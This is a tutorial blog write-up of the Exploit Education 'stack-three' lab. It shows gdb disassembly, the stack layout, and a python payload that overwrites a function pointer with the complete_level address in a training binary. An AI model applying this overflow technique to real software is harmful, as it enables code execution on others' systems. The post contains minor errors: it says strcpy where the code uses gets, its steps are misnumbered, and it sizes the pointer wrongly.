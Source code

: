 ```yaml
---
layout: post
title: Stack Three Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Three exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)

### Quick Overview

Similar to Stack Two, Stack Three exercise motive is to smash the stack to modify other variables in the stack to a `hex value` and technically overwrite `function pointer` in the stack. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int *fp` function pointer stays in main stackframe. This overwritten function pointer will be further used to invoke in later part of the program.

### Disassemble

Disassembling the code will get you overall idea behind the stack-three code, One can use `gdb ./stack-three` to start debugging it in runtime.

1. `gdb ./stack-three`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004006b5 <+0>:     push   rbp
   0x00000000004006b6 <+1>:     mov    rbp,rsp
   0x00000000004006b9 <+4>:     sub    rsp,0x60
   0x00000000004006bd <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006c0 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006c4 <+15>:    mov    edi,0x4007d8
   0x00000000004006c9 <+20>:    call   0x4004f0 <puts@plt>
   0x00000000004006ce <+25>:    mov    QWORD PTR [rbp-0x10],0x0
   0x00000000004006d6 <+33>:    lea    rax,[rbp-0x50]
   0x00000000004006da <+37>:    mov    rdi,rax
   0x00000000004006dd <+40>:    call   0x4004e0 <gets@plt>
   0x00000000004006e2 <+45>:    mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006e6 <+49>:    test   rax,rax
   0x00000000004006e9 <+52>:    je     0x40071d <main+104>
   0x00000000004006eb <+54>:    mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006ef <+58>:    mov    rsi,rax
   0x00000000004006f2 <+61>:    mov    edi,0x400828
   0x00000000004006f7 <+66>:    mov    eax,0x0
   0x00000000004006fc <+71>:    call   0x4004d0 <printf@plt>
   0x0000000000400701 <+76>:    mov    rax,QWORD PTR [rip+0x200418]        # 0x600b20 <stdout>
   0x0000000000400708 <+83>:    mov    rdi,rax
   0x000000000040070b <+86>:    call   0x400500 <fflush@plt>
   0x0000000000400710 <+91>:    mov    rdx,QWORD PTR [rbp-0x10]
   0x0000000000400714 <+95>:    mov    eax,0x0
   0x0000000000400719 <+100>:   call   rdx
   0x000000000040071b <+102>:   jmp    0x400727 <main+114>
   0x000000000040071d <+104>:   mov    edi,0x400848
   0x0000000000400722 <+109>:   call   0x4004f0 <puts@plt>
   0x0000000000400727 <+114>:   mov    edi,0x0
   0x000000000040072c <+119>:   call   0x400510 <exit@plt>
```

If you carefully check the source, you might miss `complete_level` in the above disassembled code. You can go ahead and type `disassemble complete_level` in the gdb prompt,

```assembly
   0x000000000040069d <+0>:     push   rbp
   0x000000000040069e <+1>:     mov    rbp,rsp
   0x00000000004006a1 <+4>:     mov    edi,0x400790
   0x00000000004006a6 <+9>:     call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:    mov    edi,0x0
   0x00000000004006b0 <+19>:    call   0x400510 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-three using gdb to view the assembly instruction, you may notice the puts, fflush, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-three, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Set `locals.fp` variable to `zero` or `0x00` in hex
4. Strcpy `locals.buffer` variable filled by `gets` function
5. Verify `locals.fp` is not `NULL` (cmd instruction)
6. Use `locals.fp` function pointer to invoke the corresponding function
5. Use puts(aka Printf) method to greet the user again with decision
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite function pointer with your own function pointer and therefore redirecting the program flow to achieve code execution within the binary/program. In ideal exploit world, you may overwrite the function pointer and redirect to `system` function call to achieve remote code execution and [this](https://securitylab.github.com/research/now-you-c-me-part-two/) blog post good example of reflecting this goal. In this exercise, you might want to overwrite the function pointer `locals.fp` with `complete_level` function memory address.

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stack frame same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x60` (0x7fffffffe600) as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-three-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe610` and `locals.fp` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.fp`. If you play around with these memory layout behaviour, you may note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.fp` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.fp` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.fp` variable. However, our challenge is to overwrite `locals.fp` variable with `complete_level` function memory address. So, How do i get the `complete_level` function loaded memory address? Simple, use gdb disassemble `disassemble complete_level` command and note down the starting `rbp` address aka `0x40069d` (ignore the padding zeros).

If you try generating the payload simply  `(A * 64) + '\x40\x06\x9d'`, this would represent in the memory as `64 'A's & 0x40069d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x9d\x06\x40'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-three-gdb.jpg)

### Result

`> r <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")` in gdb prompt.

```assembly
(gdb) r 
(gdb) r <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Starting program: /opt/phoenix/amd64/stack-three <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
[Inferior 1 (process 375) exited normally]
Py
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Three Exercise: [Exploit Education](https://exploit.education/phoenix/stack-three/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.

